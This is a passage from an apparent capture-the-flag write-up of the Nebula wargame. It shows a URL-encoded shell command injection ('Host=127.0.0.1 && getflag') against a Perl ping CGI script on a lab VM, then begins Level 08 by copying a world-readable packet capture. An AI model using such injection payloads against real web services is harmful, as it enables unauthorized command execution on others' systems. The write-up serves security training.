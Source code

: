 ```perl
ping(param("Host"));
```

So the Nebula machine has a webserver running. Checking the config file we can see that it's running on port 7007. The script tells us that it's expecting a `Host` parameter. So let's hit the server from our web browser at the following URL (your IP will depend on what IP your VM has) `https://192.168.56.102:7007/index.cgi?Host=192.168.56.102`

Basically I am pinging the same host. The webpage will display the output of the ping command.

We can't change the ping call, but we have control over what gets passed to the command. Let's craft a special URL

```sourceCode
$> curl https://192.168.56.102:7007/index.cgi?Host=127.0.0.1%20%26%26%20getflag
<html><head><title>Ping results</title></head><body><pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_req=1 ttl=64 time=0.117 ms
64 bytes from 127.0.0.1: icmp_req=2 ttl=64 time=0.028 ms
64 bytes from 127.0.0.1: icmp_req=3 ttl=64 time=0.035 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1998ms
rtt min/avg/max/mdev = 0.028/0.060/0.117/0.040 ms
You have successfully executed getflag on a target account
```

Notice we need to encode the URL parms. The plaintext URL is `https://192.168.56.102:7007/index.cgi?Host=127.0.0.1 && getflag`

## Level 08

> World readable files strike again. Check what that user was up to, and use it to log into flag08 account.

Let's take a look then

```sourceCode
level08@nebula:/home/flag08$ ls -la
total 18
drwxr-x--- 1 flag08 level08   60 2014-06-14 14:10 .
drwxr-xr-x 1 root   root     500 2012-08-27 07:18 ..
-rw------- 1 flag08 flag08    13 2014-06-14 14:10 .bash_history
-rw-r--r-- 1 flag08 flag08   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag08 flag08  3353 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 root   root    8302 2011-11-20 21:22 capture.pcap
-rw-r--r-- 1 flag08 flag08   675 2011-05-18 02:54 .profile
```

The only interesting file that's readable here is `capture.pcap`. Let's copy it out and use _Wireshark_ to take a look at it.

```sourceCode
$> scp level08@192.168.56.102:/home/flag08/capture.pcap .

level08@192.168.56.102's password:
capture.pcap                                  100% 8302     8.1KB/s   00:00
```
